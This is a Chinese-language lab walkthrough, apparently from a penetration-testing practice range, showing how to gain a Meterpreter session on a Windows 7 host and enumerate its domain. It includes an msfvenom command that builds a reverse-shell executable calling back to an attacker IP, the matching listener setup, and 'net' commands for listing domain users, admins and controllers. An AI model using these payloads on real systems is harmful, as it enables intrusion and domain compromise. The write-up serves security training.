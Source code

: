 ### 上线MSF

生成一个payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.170.91 LPORT=9999 -f exe > ma.exe
```

上传到win7主机上，设置监听IP和端口(和上面保持一致)

```
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.170.91
set lport 9999
run
```

> 查询用户权限
>
> 查看当前用户命令：whoami
>
> - 本地普通用户
>    主机名\test
> - 本地管理员用户
>    主机名\administrator
> - 域内用户
>    域名\test
> - 域内管理员用户
>    域名\administrator

#### 域内信息收集

> `net view` 显示当前域的计算机列表
>
> `net view /domain:hack` 查看hack域中的机器列表
>
> `net user` 查看本机的用户列表
>
> `net user /domain` 查看域内用户列表
>
> `net user xx /domain` 查看域内用户的信息
>
> `net config workstation` 查看工作站信息
>
> `net group "domain admins" /domain` 查看域的管理员用户
>
> `net group "Domain Controllers" /domain` 查看所有域控制器

收集系统基本信息，当前域是`GOD`，win7这台主机是`域管理员`

```bash
meterpreter > sysinfo
Computer        : STU1
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : GOD
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: GOD\Administrator
```
